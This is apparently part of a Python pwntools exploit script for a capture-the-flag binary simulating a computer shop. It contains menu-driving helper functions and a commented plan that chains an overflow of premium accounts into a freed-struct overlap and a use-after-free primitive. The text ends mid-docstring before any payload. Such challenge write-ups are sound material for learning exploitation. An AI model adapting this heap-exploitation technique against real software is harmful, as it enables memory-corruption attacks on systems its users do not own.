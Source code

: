```Python

def buy_computer(user_id, computer_name, manu_name, super_fast, price, would_buy):
	menu()
	r.sendline('3')
	r.sendlineafter('id: ', str(user_id))
	r.sendlineafter('computer name: ', computer_name)
	r.sendlineafter('manufacturer name: ', manu_name)
	r.sendlineafter('(Y/N): ', super_fast)
	r.sendlineafter('pay: ', str(price))
	r.sendlineafter('(Y/N): ', would_buy)

def buy_computer_exists(user_id, computer_name, would_buy):
	menu()
	r.sendline('3')
	r.sendlineafter('id: ', str(user_id))
	r.sendlineafter('computer name: ', computer_name)
	r.sendlineafter('(Y/N): ', would_buy)

def show_details(user_id):
	menu()
	r.sendline('4')
	r.sendlineafter('id: ', str(user_id))
	r.recvuntil('Username: ')
	username = r.recvline().replace('\n','')
	r.recvuntil('money: ')
	money = int(r.recvline().replace('\n',''))
	return (username, money)

def edit_details(user_id, new_name, new_money):
	menu()
	r.sendline('5')
	r.sendlineafter('id: ', str(user_id))
	r.sendlineafter('username: ', new_name)
	r.sendlineafter('account: ', str(new_money))

def return_computer(user_id, computer_name):
	menu()
	r.sendline('6')
	r.sendlineafter('id: ', str(user_id))
	r.sendlineafter('name: ', computer_name)

def exit_program():
	menu()
	r.sendline('7')


if __name__ == "__main__":
	'''
	--------------------------------------------------------
					Exploit process:
	--------------------------------------------------------
		
		1) Add enough premium accounts.
		2) Call 'buy_multiple_premiums' again to cause an overflow.
		3) Overlap the overflow with an IN-USE (computer_bitmaps[i] == 1) computer, and edit it's money such that the money of the overlapping account will be 0.
		4) Return a computer which you don't own --> free's the overlapping user that exists in the `computers_array` due to the overflow.
		5) We can still access that user from the `users` array- we can still access it's name.
		6) Allocate a new user, due to the order of free/alloc, the user struct will overlap with the old FREED `name` field.
		7) This allows us to change the fields of the new user, using the old free'd user struct!
		8) Classic UAF primitive from here since we can edit the user settings.
```